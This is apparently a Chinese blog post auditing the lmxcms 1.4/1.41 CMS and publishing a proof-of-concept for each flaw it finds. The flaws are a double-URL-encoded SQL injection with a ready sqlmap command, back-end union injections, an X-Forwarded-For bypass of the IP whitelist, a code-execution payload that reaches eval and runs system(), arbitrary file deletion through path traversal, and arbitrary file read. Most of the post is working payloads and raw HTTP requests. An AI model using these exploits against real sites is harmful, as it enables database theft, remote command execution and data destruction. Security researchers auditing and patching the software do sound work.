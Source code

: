 ```yaml
---
title: lmxcms全漏洞poc
copyright: true
date: 2022-02-10 14:52:26
tags: 渗透测试
---
```

lmxcms源码审计
<!-- more -->
**1.4前台sql注入漏洞**  
c/index/TagsAction.class.php  
1.构造函数通过_POST方式获取name变量  
2.p函数对数据校验，过滤关键字+addslashes转义  
3.通过delHtml函数（strip_tag函数）去除标签对，进行一次url编码  
4.sql拼接查询   
![1.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/1.png?raw=true)  
![2.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/2.png?raw=true)  
![3.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/3.png?raw=true)  
数据检查后进行了一次urldecode，可以通过两次url编码绕过addslashes函数的转义  
```
poc: 'and (updatexml(1,concat(0x7e,(database()),0x7e),1)) and '1'='1  

两次Urldecode：http://127.0.0.1:8081/lmxcms1.4/index.php?m=tags&a=index&name=%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%38%25%37%35%25%37%30%25%36%34%25%36%31%25%37%34%25%36%35%25%37%38%25%36%64%25%36%63%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%36%34%25%36%31%25%37%34%25%36%31%25%36%32%25%36%31%25%37%33%25%36%35%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%63%25%33%31%25%32%39%25%32%39%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%37%25%33%31%25%32%37%25%33%64%25%32%37%25%33%31
```
![4.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/4.png?raw=true)  
lmx1.txt  
```
GET /lmxcms1.4/index.php?m=tags&a=index&name=1 HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=jiit711t06f5plsu8fo7bbqla2; XDEBUG_SESSION=XDEBUG_ECLIPSE
Upgrade-Insecure-Requests: 1
```
sqlmap：  
```
python2 sqlmap.py -r lmx1.txt --technique=E -v3 --tamper=chardoubleencode -p name --dbs
```

**1.4/1.41后台sql注入漏洞**  
c/index/AcquisiAction.class.class.php  
POST的参数未过滤，但后台本身可以执行sql语句（无回显），此漏洞危害较低  
![5.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/5.png?raw=true)  
```
poc：1' and updatexml(0,concat(0x7e,database()),1) and '1
```
![6.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/6.png?raw=true)  
c/admin/AcquisAction.class.php 中 311行查询时对获取的lid参数未检验，且sql语句直接拼接，导致sql注入  
![7.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/7.png?raw=true)  
![8.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/8.png?raw=true)  
```
Poc: http://127.0.0.1:8081/lmxcms1.4/admin.php?m=Acquisi&a=showCjData&lid=-1+union+select+1,1,1,(select+1+and+(updatexml(1,concat(0x7e,(select+database()),0x7e),1))),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1
```
![9.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/9.png?raw=true)  
**1.4/1.41绕过ip白名单**  

后台ip白名单可通过X-Forwarded-For 绕过  
![10.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/10.png?raw=true)  

**1.4/1.41后台任意代码执行**
c/admin/AcquisAction.class.php 中 318行eval执行了$temdata['data']参数，该参数的值是从lmx_cj_list数据表中查询出的array字段的值，而查询时存在sql注入导致该字段可控，从而导致任意代码执行。  
![11.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/11.png?raw=true)  
```
Poc: admin.php?m=Acquisi&a=showCjData&lid=-1+union+select+1,1,1,'1;system(\'ipconfig\');',1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1
```
![12.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/12.png?raw=true)  
**1.4/1.41 后台任意文件删除**  
c/admin/FileAction.class.php 中使用unlink方法删除文件，unlink方法调用php unlink方法，此处未对传入的路径做检查，存在任意文件删除。  
![13.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/13.png?raw=true)  

poc:  
```
POST /lmxcms1.4/admin.php?m=File&a=delete HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 97
Origin: http://localhost:8081
Connection: close
Referer: http://localhost:8081/lmxcms1.4/admin.php?m=File&a=index&type=0
Upgrade-Insecure-Requests: 1

type=0&delImages=%E5%88%A0%E9%99%A4%E9%80%89%E4%B8%AD%E5%9B%BE%E7%89%87&fid%5B%5D=7#####/test.txt
```
其中test.txt在index.php 同级目录下，且可使用..进行目录穿越。  
**1.4/1.41 后台任意文件读取**  
c/admin/TemplateAction.class.php  
![14.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/14.png?raw=true)  
![15.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/15.png?raw=true)  
![16.png](https://github.com/lockcy/penetration-kb/blob/master/pic/lmxcms1.41%E6%BA%90%E7%A0%81%E5%AE%A1%E8%AE%A1/16.png?raw=true)  
poc:
```
http://localhost:8081/lmxcms1.4/admin.php?m=Template&a=editfile&dir=../flag.txt
```
